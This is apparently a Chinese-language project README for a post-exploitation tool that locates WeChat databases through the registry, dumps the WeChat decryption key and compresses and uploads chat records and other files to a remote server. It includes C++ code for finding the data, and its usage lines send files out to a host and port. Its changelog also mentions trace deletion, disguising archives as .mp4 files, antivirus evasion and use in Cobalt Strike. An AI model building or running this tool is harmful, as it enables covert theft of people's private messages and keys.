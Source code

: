 # FileSearch

## 开发中......
### v1.3

1、排除c盘符的查找指定类型文件，避免大量缓存文件，自定义参数在c:\\users目录下查找

2、运行成功后删除生成出来的文件夹以及压缩包，文件后缀随机修改成了mp4

3、(碰到vx用户自设的保存路径，需要加个指定路径去获取)

4、优化了查找文件匹配方式，支持模糊匹配或精确匹配

![](https://images.zsxq.com/Fr7-9bEGX922u_WCD00vgKzoQkvE?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1672502399&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:g2IPF0-87rABGDbCjicVM8bm79g=)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe search d:\ .docx 
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe send 127.0.0.1 8888 vxpath
[+] FileUpload.exe upload path 127.0.0.1 8888
[+] FileUpload.exe all 127.0.0.1 8888
[+] FileUpload.exe user 127.0.0.1 8888

```

### v1.2(暂不开源)

实战中发现全盘查找微信数据库文件在cs中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径

```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe upload path 127.0.0.1 8888

```
实现效果：
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665471090145-08f5b557-680f-4c8c-8fce-9574d581f81d.png)

### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)

